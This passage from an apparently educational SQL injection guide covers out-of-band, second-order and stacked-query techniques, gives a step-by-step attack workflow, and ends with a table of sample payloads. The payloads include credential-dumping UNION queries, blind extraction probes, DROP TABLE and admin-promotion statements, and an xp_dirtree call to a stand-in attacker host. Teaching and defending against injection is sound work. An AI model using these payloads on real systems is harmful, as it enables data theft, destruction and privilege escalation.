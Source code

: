 When neither in-band nor blind techniques work—often due to restrictive output or network filtering—an alternate channel such as DNS or HTTP requests is used to exfiltrate data. The database is tricked into making network requests to attacker-controlled servers, carrying stolen data in the request payload or URL path.

---

### 2.4 Second-Order SQLi

Malicious input is stored in the database by one part of the application and later executed by another part. The injection doesn’t manifest immediately; it triggers when the stored data is concatenated into a query at a later time, often bypassing initial input filters.

---

### 2.5 Stacked Queries

Also known as piggy-backed queries, this technique executes multiple SQL statements in a single request (if the database supports statement stacking). For example, `id=1; DROP TABLE users;--` will first select record `1` and then drop the `users` table. Many modern databases disable stacking by default due to its high risk.

---

## 3. Common SQLi Attack Workflow

1. **Identify injectable input** (URL parameters, form fields, HTTP headers).
2. **Verify vulnerability** by injecting a single quote (`'`) or semicolon to cause a syntax error.
3. **Determine database type** (MySQL, MSSQL, Oracle, PostgreSQL) using version-specific functions like `version()`.
4. **Extract schema information** via `information_schema` tables or equivalent system catalogs.
5. **Dump data** using `UNION SELECT`, boolean/time-based techniques, or OOB channels.
6. **Escalate impact** through file read/write (`LOAD_FILE()`, `INTO OUTFILE`), OS command execution (`xp_cmdshell`), or user privilege creation.

---

## 4. Representative Payloads

| Technique                   | Example Payload                                                                              |
| --------------------------- | -------------------------------------------------------------------------------------------- |
| Test for injection          | `' OR '1'='1'--`                                                                             |
| Error-Based enumeration     | `' AND EXTRACTVALUE(1, CONCAT(0x7e, version(), 0x7e))--`                                     |
| Union-Based data extraction | `' UNION SELECT username, password FROM users--`                                             |
| Boolean-Based blind testing | `' AND (SELECT SUBSTR(password,1,1) FROM users LIMIT 1)='a'--`                               |
| Time-Based blind testing    | `' OR IF((SELECT COUNT(*) FROM users)>0, SLEEP(5), 0)--`                                     |
| OOB exfiltration            | `'; EXEC xp_dirtree '\\attacker.com\share'--`                                                |
| Second-Order injection      | Insert `1; DROP TABLE logs;--`into a comment field, later retrieved in an admin report query |
| Stacked queries             | `1; UPDATE users SET role='admin' WHERE id=1;--`                                             |

---